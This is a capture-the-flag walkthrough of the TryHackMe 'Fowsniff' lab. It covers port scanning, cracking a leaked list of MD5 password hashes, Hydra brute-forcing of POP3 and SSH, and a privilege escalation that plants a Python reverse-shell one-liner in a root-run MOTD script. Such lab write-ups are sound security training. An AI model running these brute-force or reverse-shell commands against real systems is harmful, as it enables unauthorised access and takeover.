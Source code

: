 ```bash
# PLATFORM          . THM
# CTF NAME          . Fowsniff 1
# DESCRIPTION       . Hack this machine and get the flag. There are lots of hints along the way and is perfect for beginners!
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/ctf
```

```
sudo nmap -sSVC -p- -T5 -oN fowsniff 10.10.106.143
```

```
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 903566f4c6d295121be8cddeaa4e0323 (RSA)
|   256 539d236734cf0ad55a9a1174bdfdde71 (ECDSA)
|_  256 a28fdbae9e3dc9e6a9ca03b1d71b6683 (ED25519)

80/tcp  open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Fowsniff Corp - Delivering Solutions
|_http-server-header: Apache/2.4.18 (Ubuntu)

110/tcp open  pop3    Dovecot pop3d
|_pop3-capabilities: PIPELINING SASL(PLAIN) RESP-CODES TOP AUTH-RESP-CODE USER CAPA UIDL

143/tcp open  imap    Dovecot imapd
|_imap-capabilities: OK LITERAL+ more ENABLE IMAP4rev1 SASL-IR ID post-login listed capabilities AUTH=PLAINA0001 LOGIN-REFERRALS have IDLE Pre-login
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- `robots.txt` doesn't reveal anything interesting, but since we're already here, let's check the webpage  too.

```
**Client information was not affected.**

Due to the strong possibility that employee information has been made publicly available, all employees have been instructed to change their passwords immediately.

The attackers were also able to hijack our official @fowsniffcorp Twitter account. All of our official tweets have been deleted and the attackers may release sensitive information via this medium. We are working to resolve this at soon as possible.

We will return to full capacity after a service upgrade.
```

- So I headed to Twitter and looked for user `@fowsniffcorp` - [link](https://twitter.com/fowsniffcorp)

- On his profile, we're able to find a link to pastebin with the following content

```
FOWSNIFF CORP PASSWORD LEAK
            ''~``
           ( o o )
+-----.oooO--(_)--Oooo.------+
|                            |
|          FOWSNIFF          |
|            got             |
|           PWN3D!!!         |
|                            |         
|       .oooO                |         
|        (   )   Oooo.       |         
+---------\ (----(   )-------+
           \_)    ) /
                 (_/
FowSniff Corp got pwn3d by B1gN1nj4!
No one is safe from my 1337 skillz!
 
 
mauer@fowsniff:8a28a94a588a95b80163709ab4313aa4
mustikka@fowsniff:ae1644dac5b77c0cf51e0d26ad6d7e56
tegel@fowsniff:1dc352435fecca338acfd4be10984009
baksteen@fowsniff:19f5af754c31f1e2651edde9250d69bb
seina@fowsniff:90dc16d47114aa13671c697fd506cf26
stone@fowsniff:a92b8a29ef1183192e3d35187e0cfabd
mursten@fowsniff:0e9588cb62f4b6f27e33d449e2ba0b3b
parede@fowsniff:4d6e42f56e127803285a0a7649b5ab11
sciana@fowsniff:f7fd98d380735e859f8b2ffbbede5a7e
 
Fowsniff Corporation Passwords LEAKED!
FOWSNIFF CORP PASSWORD DUMP!
 
Here are their email passwords dumped from their databases.
They left their pop3 server WIDE OPEN, too!
 
MD5 is insecure, so you shouldn't have trouble cracking them but I was too lazy haha =P
 
l8r n00bz!
 
B1gN1nj4

-------------------------------------------------------------------------------------------------
This list is entirely fictional and is part of a Capture the Flag educational challenge.

--- THIS IS NOT A REAL PASSWORD LEAK ---
 
All information contained within is invented solely for this purpose and does not correspond
to any real persons or organizations.
 
Any similarities to actual people or entities is purely coincidental and occurred accidentally.

-------------------------------------------------------------------------------------------------
```

- So we got our credentials plus some extra hints: we're alreadty told that the hashes are MD5. We're also hinted that we might need to try these on the `POP3 server`, as this is exposed. 

- Using [crackstation](https://crackstation.net/) I was able to crack almost all hashes.

```
mauer@fowsniff:{redacted}ll
mustikka@fowsniff:{redacted}01
tegel@fowsniff:{redacted}01
baksteen@fowsniff:{redacted}22
seina@fowsniff:{redacted}o2
stone@fowsniff:Not found.
mursten@fowsniff:c{redacted}er
parede@fowsniff:{redacted}12
sciana@fowsniff:{redacted}72
```

- Alright. I decided to do a banner grabing on the POP3 server before attempting anything else.

```
nc -nv <IP> 110

Connection to 10.10.106.143 110 port [tcp/*] succeeded!
+OK Welcome to the Fowsniff Corporate Mail Server!
```

- Yes, the server is open. I tried the first username with the according password but it failed.
- So I have created two files, one with usernames and one with the passwords.
- Then, I have used `Hydra` to bruteforce the service.

```
hydra -L users.txt -P pass.txt 10.10.106.143 pop3 -I -t 4
```

```
[110][pop3] host: 10.10.106.143   login: seina   password: {redacted}
```

- After a while, it seems that `seina` is the user that still has access to the mail server.

```
nc -nv 10.10.106.143 110

Connection to 10.10.106.143 110 port [tcp/*] succeeded!
+OK Welcome to the Fowsniff Corporate Mail Server!

USER seina
+OK
PASS {redacted}
+OK Logged in.
LIST
+OK 2 messages:
1 1622
2 1280

RETR 1
```

- A temporary SSH password is found in the first email.

```
The temporary password for SSH is "S{redactedll"
```

- I tried SSHing with the same as seina but I failed. I replaced the content of `pass.txt` with the password found in the email and then I've used hydra to bruteforce the SSH service.

```
hydra -L users.txt -P pass.txt 10.10.106.143 ssh -t 4 -I
```

```
[22][ssh] host: 10.10.106.143   login: baksteen   password: S{redacted}l
```

- `sudo -l` doesn't bring happy news but a simple `id` does: Our user belongs to multiple groups.

```
uid=1004(baksteen) gid=100(users) groups=100(users),1001(baksteen)
```

- This is not the default behaviour; I was curios to see if there are any files owned by this group

```
find / -group users 2>/dev/null | grep -v /proc | grep -v /sys
```

```
/opt/cube/cube.sh
/run/user/1004
/home/baksteen/.cache
/home/baksteen/.cache/motd.legal-displayed
/home/baksteen/Maildir
/home/baksteen/Maildir/tmp
/home/baksteen/Maildir/dovecot-uidvalidity
/home/baksteen/Maildir/dovecot.index.log
/home/baksteen/Maildir/cur
/home/baksteen/Maildir/new
/home/baksteen/Maildir/new/1520967067.V801I23764M196461.fowsniff
/home/baksteen/Maildir/dovecot-uidlist
/home/baksteen/Maildir/dovecot-uidvalidity.5aa21fac
/home/baksteen/.viminfo
/home/baksteen/.bash_history
/home/baksteen/.bash_logout
/home/baksteen/.lesshst
/home/baksteen/term.txt
/home/baksteen/.profile
```

- Nothing interesting except `/opt/cube/cube.sh`. Let's see what's that.

```
cat /opt/cube/cube.sh 

printf "
                            _____                       _  __  __  
      :sdddddddddddddddy+  |  ___|____      _____ _ __ (_)/ _|/ _|  
   :yNMMMMMMMMMMMMMNmhsso  | |_ / _ \ \ /\ / / __| '_ \| | |_| |_   
.sdmmmmmNmmmmmmmNdyssssso  |  _| (_) \ V  V /\__ \ | | | |  _|  _|  
-:      y.      dssssssso  |_|  \___/ \_/\_/ |___/_| |_|_|_| |_|   
-:      y.      dssssssso                ____                      
-:      y.      dssssssso               / ___|___  _ __ _ __        
-:      y.      dssssssso              | |   / _ \| '__| '_ \     
-:      o.      dssssssso              | |__| (_) | |  | |_) |  _  
-:      o.      yssssssso               \____\___/|_|  | .__/  (_) 
-:    .+mdddddddmyyyyyhy:                              |_|        
-: -odMMMMMMMMMMmhhdy/.    
.ohdddddddddddddho:                  Delivering Solutions\n\n"
```

```bash
baksteen@fowsniff:~$ ls -l /opt/cube/cube.sh 
-rw-rwxr-- 1 parede users 851 Mar 11  2018 /opt/cube/cube.sh
```

- Alright, so it's just a motd sort of thing. But it is owned by the `users` group, so we can edit it.

- By the way, this is the same MOTD displayed when we logged on the server. Let's investigate to see how it gets triggered.

- Inside the `/etc/update-motd.d` directory, we have multiple files.

- `00-header` file is owned by `root` and calls for `sh /opt/cube/cube.sh` - our script.

- Let's change its content to a reverse shell and then relog to SSH to trigger it.

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((<IP>,1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

- After reconnecting to the server, we should catch a reverse shell with our listener.

```
# whoami
root
```

- The flag is in `/root/flag.txt`.

